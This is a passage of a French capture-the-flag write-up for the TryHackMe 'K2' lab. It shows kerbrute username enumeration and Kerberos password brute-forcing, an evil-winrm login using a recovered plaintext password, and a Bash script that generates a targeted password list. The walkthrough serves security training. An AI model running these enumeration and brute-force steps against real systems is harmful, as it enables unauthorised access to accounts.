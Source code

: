 Kerbrute peut également être utilisé pour trouver les noms d'utilisateur valides.

```
./kerbrute userenum --dc K2Server.k2.thm -d k2.thm potential_AD_users.txt 
```

![kerbrute AD enumeration](/images/THM-K2/k2_valid_AD_usernames.png)

Nous pouvons ensuite utiliser les mots de passe trouvés contre les utilisateurs.

```
./kerbrute bruteuser --dc K2Server.k2.thm -d k2.thm found_pwds.txt j.bold

./kerbrute bruteuser --dc K2Server.k2.thm -d k2.thm found_pwds.txt r.bud
```

![kerbrute credentials brute forcing](/images/THM-K2/rose_bud_kerbrute.png)

> Kerbrute fonctionnera indépendamment du fait que l'authentification nulle soit activée ou désactivée. Il est conçu pour trouver des informations d'identification valides par rapport à un service d'authentification **Kerberos**.

## Accès initial (shell en tant que rose)

Avec les identifiants valides, nous nous connectons avec evil-winrm.

```
evil-winrm -i k2.thm -u r.bud -p "vRMkaVgdfxhW\!8"
```

![K2-Middle Camp foothold](/images/THM-K2/foothold_k2MC.png)

Dans `C:\Users\r.bud\Documents` nous trouvons deux fichiers texte: `notes.txt` et `note_to_james.txt`.

![notes content](/images/THM-K2/rbud_notes_content.png)

Il s'agit d'un échange concernant la conformité d'un mot de passe. James a ajouté deux caractères à son mot de passe précédent, qui était `rockyou`, afin de répondre aux critères.

Nous savons donc que le mot de passe de James comporte **9** caractères et inclut `rockyou`, un caractère spécial et un chiffre.

Utilisons un script Bash pour générer quelques mots de passe.

```bash
#!/bin/bash

special_characters=('!' '@' '#' '$' '%' '^' '&' '*')
numbers=(0 1 2 3 4 5 6 7 8 9)

output_file="james_passwords.txt"

> "$output_file"

for special in "${special_characters[@]}"; do
    for number in "${numbers[@]}"; do
    
        echo "${special}${number}rockyou" >> "$output_file"
        
        echo "${number}${special}rockyou" >> "$output_file"
        
        echo "rockyou${number}${special}" >> "$output_file"
        
        echo "rockyou${special}${number}" >> "$output_file"
    done
done

echo "Password list generated in $output_file"
```